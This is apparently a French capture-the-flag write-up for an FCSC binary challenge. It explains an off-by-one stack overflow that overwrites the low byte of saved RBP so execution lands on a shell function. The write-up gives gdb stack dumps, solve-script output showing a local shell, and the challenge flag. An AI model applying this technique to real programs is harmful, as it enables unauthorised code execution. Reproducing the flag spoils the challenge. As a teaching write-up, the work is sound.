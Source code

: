 P'tit coup de Ghidra

On a 3 fonctions intéressantes (copiées dans [source.c](source.c))

On vise shell, évidemment.

Le main crée un char buffer[128], lit bien 128 caractères dedans (pas d'overflow ici) et appelle xor sur le buffer avant d'afficher ce qu'il contient.

xor, elle, est intéressante. Elle crée un buffer de 140 octets mais en lit 145.

Comme il n'y a pas de canary, on se retrouve dans le schéma habituel où on va écraser RBP (8 octets car 64 bits) puis RIP (8 octets aussi)

À cause de l'alignement de la stack cependant, le buffer a une taille de 144 octets (18 * 8). On ne peut donc écraser que le bit le moins significatif de RBP (en little endian), et pas du tout RIP. Heureusement, on se rend compte avec gdb notre chaîne de caractères se trouve juste au dessus de RBP : si on réécrit son dernier octet, il y a de grandes chances qu'on tombe dedans.

On écrit un petit script avec pwntools pour envoyer 128 fois 0x00 (pour neutraliser le xor) puis autant de fois que possible notre adresse cible (celle de shell, à 0x401142) en espérant que le RBP réécrit tombe sur l'une d'elles. Enfin, on écrit un dernier octet à 0x00 ou 0x80 pour remonter dans la stack. J'ai eu des résultats mitigés avec les autres valeurs, ces deux là semblent marcher ~80% du temps.

En effet, parfois la stack est faite de telle façon que RBP se trouve juste avant ou après un changement d'octet en avant-dernier bit significatif, et dans une telle configuration en réécrire le dernier octet renvoie vers une adresse invalide.

Après exploit (en utilisant 0x80 en dernier octet), la stack ressemble à ceci :

```
gdb-peda$ x/44xg $rsp
0x7fffffffdcb0: 0x00007fffffffdd60      0x00007fffffffdd60
0x7fffffffdcc0: 0x0000000000401142      0x0000000000401142 # second buffer[144] + 1
0x7fffffffdcd0: 0x0000000000401142      0x0000000000401142
0x7fffffffdce0: 0x0000000000401142      0x0000000000401142
0x7fffffffdcf0: 0x0000000000401142      0x0000000000401142
0x7fffffffdd00: 0x0000000000401142      0x0000000000401142
0x7fffffffdd10: 0x0000000000401142      0x0000000000401142
0x7fffffffdd20: 0x0000000000401142      0x0000000000401142
0x7fffffffdd30: 0x0000000000401142      0x0000000000401142
0x7fffffffdd40: 0x0000000000401142      0x0000008000401142
0x7fffffffdd50: 0x00007fffffffdd80      0x0000000000401213 # RBP réécrit avec 0x80 ici
0x7fffffffdd60: 0x0000000000401142      0x0000000000401142 # premier buffer[128]
0x7fffffffdd70: 0x0000000000401142      0x0000000000401142
0x7fffffffdd80: 0x0000000000401142      0x0000000000401142
0x7fffffffdd90: 0x0000000000401142      0x0000000000401142
0x7fffffffdda0: 0x0000000000401142      0x0000000000401142
0x7fffffffddb0: 0x0000000000401142      0x0000000000401142
0x7fffffffddc0: 0x0000000000401142      0x0000000000401142
0x7fffffffddd0: 0x0000000000401142      0x0000000000401142
0x7fffffffdde0: 0x0000000000401240      0x00007ffff7e09d0a
0x7fffffffddf0: 0x00007fffffffded8      0x0000000100000000
0x7fffffffde00: 0x00000000004011df      0x00007ffff7e097cf
gdb-peda$ x $rbp
0x7fffffffdd50: 0x00007fffffffdd80
```

Et on obtient notre shell

```
$ ./solve.py
[+] Starting local process './xoraas': pid 77794
[*] Switching to interactive mode
$ whoami
syca
```

On le lance en remote et on récupère le flag

FCSC{0d6c81576d1465a876422910769e79af287c9e73254112572737383039194f5d}
